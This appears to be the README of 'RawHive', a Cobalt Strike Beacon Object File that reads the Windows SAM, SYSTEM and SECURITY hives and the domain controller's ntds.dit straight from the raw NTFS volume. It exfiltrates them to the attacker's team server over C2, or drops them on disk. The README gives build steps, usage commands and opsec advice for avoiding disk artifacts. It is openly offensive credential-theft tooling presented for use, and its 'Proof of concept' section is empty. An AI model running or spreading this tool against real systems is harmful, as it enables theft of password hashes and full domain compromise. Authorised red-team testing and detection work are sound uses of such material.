

# RawHive

RawHive is a Cobalt Strike BOF for pulling selected Windows registry hives straight from a raw NTFS volume. It skips the normal file APIs, walks NTFS metadata to find the target file records, and reads the bytes directly from disk.

Targets:

- `C:\Windows\System32\config\SAM`
- `C:\Windows\System32\config\SYSTEM`
- `C:\Windows\System32\config\SECURITY`
- `C:\Windows\NTDS\ntds.dit` (domain controllers only)

Any local NTFS drive letter works; the default is `C:`.

## How it works

1. Opens the volume (for example `\\.\C:`) and reads the boot sector to locate `$MFT`.
2. Walks directory indexes for `Windows`, `System32`, `config`, and the target files, with a bounded MFT scan as fallback.
3. Reads file data from resident attributes or cluster runlists.
4. Streams the bytes over C2 (download mode) or writes them to disk (disk-write mode).

## Requirements

- 64-bit Beacon running as local admin or SYSTEM.
- `x86_64-w64-mingw32-gcc` and `make` for building.

## Build

```sh
make
```

Builds `dist/rawhive.x64.o`. `rawhive.cna` loads the object from `dist/`, so rebuild after changing `rawhive.c`.

## Usage

Download mode is the default: hives are read straight from the raw volume and pushed to the team server via the BeaconDownload API. Nothing touches the target's disk.

```text
rawhive                    # download C: hives to team server
rawhive D                  # download D: hives to team server
```

Disk-write mode saves `.tmp` files to a directory on the target. Note this touches the disk and may not be opsec safe; prefer download mode unless you specifically need the files landed locally.

```text
rawhive C:\Windows\Temp           # write C: hives to disk
rawhive C:\Windows\Temp D         # write D: hives to C:\Windows\Temp
```

The volume can be written as `C`, `c`, or `C:`. The output directory must already exist.

## Output

Files are named `<host>_<timestamp>_<hive>.tmp`:

```text
<host>_<timestamp>_sam.tmp
<host>_<timestamp>_system.tmp
<host>_<timestamp>_security.tmp
<host>_<timestamp>_ntds.tmp       # DCs only
```

In download mode they appear in Cobalt Strike's download tray; in disk-write mode they land in the specified output directory.

## Notes

- The fallback MFT scan is capped at 500,000 records.
- Runlists are capped at 128 extents; a too-fragmented file fails instead of reporting a partial file as complete.
- Malformed or unsupported NTFS structures are rejected instead of continuing with unsafe offsets.

## Proof of concept


